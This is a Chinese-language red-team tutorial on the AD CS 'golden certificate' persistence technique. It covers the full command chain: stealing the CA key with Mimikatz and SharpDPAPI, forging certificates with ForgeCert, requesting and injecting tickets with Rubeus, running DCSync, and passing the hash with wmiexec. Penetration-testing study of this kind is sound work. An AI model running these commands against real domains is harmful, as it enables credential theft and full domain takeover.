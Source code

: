 ## 利用黄金证书劫持域控
域控渗透最常见的域持久性技术之一是黄金票据攻击，它涉及使用“ krbtgt ”的 NTLM 哈希创建 kerberos 票证。“ 帐户。但是在部署了 Active Directory 认证服务 (AD CS) 的服务器的域中，可能会在发生入侵时被滥用以实现域持久性。通过窃取 CA 证书的私钥，红队可以伪造和签署证书以用于身份验证。在部署 Active Directory 证书服务 (AD CS) 期间，域中默认启用基于证书的身份验证。因此，需要将这些系统视为第 0 层资产并得到适当保护。

通过黄金证书执行域持久化需要以下步骤：

1.	证书提取 (CA)

2.	伪造CA证书

3.	获取 Kerberos 票证（DC 的机器账户）

4.	执行pass票证

# 证书提取
CA 证书和私钥存储在 CA 服务器中。使用与系统的 RDP 连接，可以使用“ certsrv.msc ”的备份功能检索这些信息。

![](/img/利用黄金证书劫持域控/1.png)

<center>
certsrv – 备份 CA
</center>
在证书颁发机构备份向导中，私钥和 CA 证书都可以导出到指定位置。

![](/img/利用黄金证书劫持域控/2.png)

<center>
certsrv – 私钥和备份位置
</center>
CA 证书将导出为 p12 文件（个人信息交换）。

![](/img/利用黄金证书劫持域控/3.png)

<center>
certsrv – 提取的 CA
</center>
但是，还有多种其他方法可用于从服务器提取 CA 证书和私钥。使用参数“ Certificates ”执行Seatbelt可以枚举存储的CA证书。

    Seatbelt.exe Certificates

![](/img/利用黄金证书劫持域控/4.png)

<center>
Seatbelt – 本地机器
</center>
Mimikatz 还可以与加密存储进行交互，以检索和导出证书和私钥。修补“ CryptoAPI ”和“ KeyIso ”不可导出的密钥将可以从许多密钥提供程序导出。

    privilege::debug
    crypto::capi
    crypto::cng
    crypto::certificates /systemstore:local_machine /store:my /export

![](/img/利用黄金证书劫持域控/5.png)

<center>
Mimikatz – 导出证书
</center> 


![](/img/利用黄金证书劫持域控/6.png)

<center>
Mimikatz - CA 证书
</center>

证书将以 .DER 和 .PFX 格式提取到磁盘上。

![](/img/利用黄金证书劫持域控/7.png)


SharpDPAPI也可用于提取证书。执行“ certificates /machine ”命令将使用机器证书存储来提取可解密的机器证书和私钥。

    SharpDPAPI.exe certificates /machine

![](/img/利用黄金证书劫持域控/8.png)

<center>
SharpDPAPI – 机器证书
</center>

私钥和证书都将显示在控制台中。

![](/img/利用黄金证书劫持域控/9.png)

<center>
SharpDPAPI - CA 证书
</center>
 
提取的私钥和证书可以写入扩展名为 .PEM 的文件中。执行以下命令可以将证书转换为可用格式，如 .PFX 允许用于使用 Rubeus 进行身份验证。

    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

![](/img/利用黄金证书劫持域控/10.png)

<center>
将证书转换为 PFX
</center> 

# 伪造CA证书
Mimikatz 可用于通过使用“ crypto::scauth ”模块来伪造和签署证书。该模块最初是为创建智能卡身份验证客户端证书而开发的。所需的参数是证书颁发机构的主题名称和将创建证书的用户的用户主体名称。可选项，“ /pfx ”参数可用于定义将要创建的证书的文件名。

    crypto::scauth /caname:ca /upn:pentestlab@purple.lab

![](/img/利用黄金证书劫持域控/11.png)

<center>
伪造CA证书——Mimikatz
</center> 

或者，ForgeCert是由Lee Christensen在 C# 中开发的，它使红队能够使用 CA 证书为任何域用户伪造证书进行身份验证。该工具可以注入内存中执行，并将文件写入磁盘。执行以下命令将为“ pentestlab ”用户创建一个假证书，该证书将由 CA 证书的私钥签名。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName pentestlab@purple.lab --NewCertPath localadmin.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/12.png)

<center>
伪造CA证书-域用户
</center> 

应该注意的是，必须为域上的活动用户创建证书。因此它不能用于“ krbtgt ”帐户。伪造证书的有效期为1年，只要CA证书有效（一般为5年）就有效。除了域用户帐户外，机器帐户也可用于域持久性，因为可以使用 DCSync、Pass the Ticket 和 S4U2Self 等技术。

    ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@purple.lab --NewCertPath DC$.pfx --NewCertPassword Password123

![](/img/利用黄金证书劫持域控/13.png)

<center>
伪造证书-机台账
</center> 

# Kerberos 票证
可以使用伪造的证书从密钥分发中心 (KDC) 请求 Kerberos 票证以进行身份验证。

    Rubeus.exe asktgt /user:pentestlab /certificate:localadmin.pfx /password:Password123

![](/img/利用黄金证书劫持域控/14.png)

<center>
Rubeus – Kerberos 票证 
</center>  
 

![](/img/利用黄金证书劫持域控/15.png)

<center>
Rubeus - 域用户票
</center>  

# 通过票证
可以从域中的任何主机使用属于域控制器的机器帐户的证书来请求 Kerberos 票证。执行以下命令将检索 base64 格式的票证。

    Rubeus.exe asktgt /user:DC$ /certificate:DC$.pfx /password:Password123

![](/img/利用黄金证书劫持域控/16.png)

<center>
Rubeus - 请求 DC 机器帐户的票证 
</center> 


![](/img/利用黄金证书劫持域控/17.png)

<center>
DC 机器帐户 Base64 票证 
</center> 

base64 票证可以被解码并写入扩展名为 .kirbi 的文件中。

    echo "<base64>" | base64 -d > dc$.kirbi

![](/img/利用黄金证书劫持域控/18.png)

<center>
将 Base64 票证转换为 Kirby
</center>  

票证可以传输到任何 Windows 主机，并使用传递票证技术导入任何用户会话。

    Rubeus.exe ptt /ticket:dc$.kirbi

![](/img/利用黄金证书劫持域控/19.png)

<center>
Rubus – 通过票证
</center>

由于票据属于域控制器的计算机帐户，因此可以执行提升的活动，例如 DCSync。从当前执行 Mimikatz 并运行以下命令的会话中，将检索作为域管理员帐户的用户 Administrator 的 NTLM 哈希。

    lsadump::dcsync /user:Administrator

![](/img/利用黄金证书劫持域控/20.png)

<center>
Mimikatz – DCSync
</center>

散列可用于通过散列技术或通过 WMI 连接建立对域控制器的访问。

    python3 wmiexec.py -hashes :58a478135a93ac3bf058a5ea0e8fdb71 Administrator@10.0.0.1

![](/img/利用黄金证书劫持域控/21.png)

<center>
WMI 连接 - 域控制器
</center> 


参考链接：

https://github.com/GhostPack/Seatbelt

https://github.com/GhostPack/SharpDPAPI

https://github.com/GhostPack/ForgeCert

https://pentestlab.blog/2021/11/15/golden-certificate/
